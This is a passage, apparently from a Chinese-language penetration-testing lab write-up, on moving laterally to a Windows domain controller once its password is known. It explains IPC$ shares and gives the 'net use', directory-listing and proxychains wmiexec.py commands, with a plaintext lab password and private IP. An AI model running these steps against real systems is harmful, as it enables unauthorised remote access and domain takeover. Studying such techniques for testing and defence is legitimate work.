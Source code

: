 知道域控的账号密码，就能直接拿域控了

#### ipc连接

IPC$是共享“命名管道”的资源，它是为了让进程间通信而开放的命名管道，可以通过验证用户名和密码获得相应的权限，在远程管理计算机和查看计算机的共享资源时使用。

利用IPC$连接者可以与目标主机建立一个连接，得到目标主机上的目录结构、用户列表等信息。

利用条件：

1.管理员开启了默认共享

2.139或445端口开放

在之前那个wmi连接的20主机上再ipc连接

net use \\192.168.93.10\admin$ zxcASDqw123!! /user:test\administrator

dir \\192.168.93.10\C$\users\administator\Documents

![img](assets/1685528241586-77b62771-3577-43fd-b84b-d49a5fe1bd9e-1703395172702137.png)

#### wmi连接

或者直接另开一个wmi连接

proxychains pyrhon3 wmiexec.py -debug 'administrator:zxcASDqw123!!@192.168.93.10'
